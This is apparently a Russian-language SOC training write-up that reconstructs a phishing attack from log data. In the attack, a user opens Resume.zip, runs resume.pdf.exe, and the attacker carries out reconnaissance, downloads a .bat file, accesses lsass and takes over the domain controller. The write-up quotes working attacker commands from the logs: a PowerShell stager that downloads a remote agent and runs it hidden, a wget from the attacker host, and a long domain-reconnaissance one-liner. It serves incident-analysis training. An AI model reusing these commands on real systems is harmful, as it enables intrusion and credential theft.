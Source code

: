 # SOC-Enigma

Описание: Система UserGate Log Analyzer зафиксировала зафиксировала подозрительную активность - фишинг с последующей компрометацией хоста

## Этап 1: Фишинг
**Время 3:39** Пользователь получает письмо на сервис OutLook и скачивает **Resume.zip**

```sh
-2022-08-02 03:39:22.234{289a599c-9c69-62e8-6e14-000000001900}9396C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exeC:\Users\Bob\Downloads\Resume.zip2022-08-02 
```

![ScreenShot](screenshots/1.png)

### Этап 2: Зауск файла resume.pdf.exe пользователем и дальнейшее развитие атаки
В 3:39 был запущен файл **resume.pdf.exe**. Данный файл при запуске пытается установить соединение с хостом 192.168.44.57:8888. 

```sh
powershell.exe /c Start-Process -FilePath Resume.pdf.exe -ArgumentList '-server http://192.168.44.57:8888 -group red' -WindowStyle Hidden powershell.exe -ExecutionPolicy Bypass -C Clear-History;Clear
```

![ScreenShot](screenshots/2.png)

В 3:54 был создан процесс, который позволяет устанавливать связь с сервером.
Захвачен узел 81004481-b886-4e62-9b54-d9a2c9fef341.

```sh
HostApplication=powershell.exe -ExecutionPolicy Bypass -C if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};$server="http://0.0.0.0:8888";$socket="0.0.0.0:7010";$contact="tcp";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","manx.go");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");Get-Process | ? {$_.Path -like "C:\Users\Public\$name.exe"} | stop-process -f -ea $ErrAction;rm -force "C:\Users\Public\$name.exe" -ea $ErrAction;([io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data)) | Out-Null;Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-socket $socket -http $server -contact $contact" -WindowStyle hidden;
```

### Этап 3: Разведка системы
В 3:55 была произведена разведка системы:

```sh
C:\Windows\System32\cmd.execmd.exe /C @echo off&echo ________________________________Whoami______________________________ &  whoami &echo ________________________________HostName______________________________  & hostname  & echo ________________________________IpConfig______________________________ & ipconfig /all  & echo ____________________________AllLocalUsers___________________________ & net user /domain  & echo _________________________AllUserInDomain___________________________ & net group /domain  & echo __________________________DomianAdmins_______________________________ & net group "domain admins" /domain  & echo _______________________ExchangetrustedMembers_______________________ & net group "Exchange Trusted Subsystem" /domain  & echo ________________________NetAccountDomain____________________________ & net accounts /domain  & echo ______________________________NetUser________________________________ & net user  & echo _______________________NetLocalGroupMembers________________________ & net localgroup administrators  & echo ________________________________netstat_______________________________ & netstat -an  & echo ______________________________tasklist________________________________ & tasklist  & echo _____________________________systeminfo_______________________________ & systeminfo  & echo ________________________________RDP___________________________________ & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"  & echo ________________________________Task__________________________________ & schtasks /query /FO List /TN "GoogleUpdatesTaskMachineUI" /V | findstr /b /n /c:"Repeat: Every:"  & echo ________________________________________AntiVirus______________________________ &WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

### Этап 4: Загрузка вредоносного .bat файла

В 4:02 был создан процесс, связанный с файлом **0000000000.bat**, который впоследствии становится файлом **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C "wget http://192.168.44.57:8000/0000000000.bat -OutFile c:\windows\temp\1.bat
```

![ScreenShot](screenshots/3.png)

Также замечен файл **1.log**, который создается при работе **1.bat**. При этом происходит обращение к lsass, которое отмечается в панеле Events.
```sh
powershell.exe -ExecutionPolicy Bypass -C gc c:\windows\temp\1.log
```

![ScreenShot](screenshots/4.png)

Около 4:28 был выполнен вход с правами администратора. Вероятнее всего у злоумешленника был доступ к хосту ранее, так как за месяц до этого был сделан дамп lsass, который использоваля сейчас для звхвата:
```sh
Выполнена попытка входа в систему с явным указанием учетных данных.

Субъект:
	ИД безопасности:		S-1-5-21-2282938710-1989567394-2605000726-1662
	Имя учетной записи:		bob
	Домен учетной записи:		PENTEST
	Код входа:		0xEC1DC
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Были использованы учетные данные следующей учетной записи:
	Имя учетной записи:		Administrator
	Домен учетной записи:		
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Целевой сервер:
	Имя целевого сервера:	exchange.pentest.net
	Дополнительные сведения:	exchange.pentest.net

Сведения о процессе:
	Идентификатор процесса:		0x4
	Имя процесса:		

Сведения о сети:
	Сетевой адрес:	172.16.249.160
	Порт:			445
```

В период с 4 до 5 был захвачен хост, а также контроллер домена - узел 2861b798-eed1-40f8-8487-21c836ed782f.

![ScreenShot](screenshots/5.jpg)

### Тип атаки
**Тип угрозы:** НСД

**Возможное негативное воздействие:**
FD|CE|PI|МО 
-|-|-|-
8|8|10|8

**Рекомендации по обеспечению безопасности:** антивирус, проведение тренингов с сотрудниками на различные темы информационной безопасности.
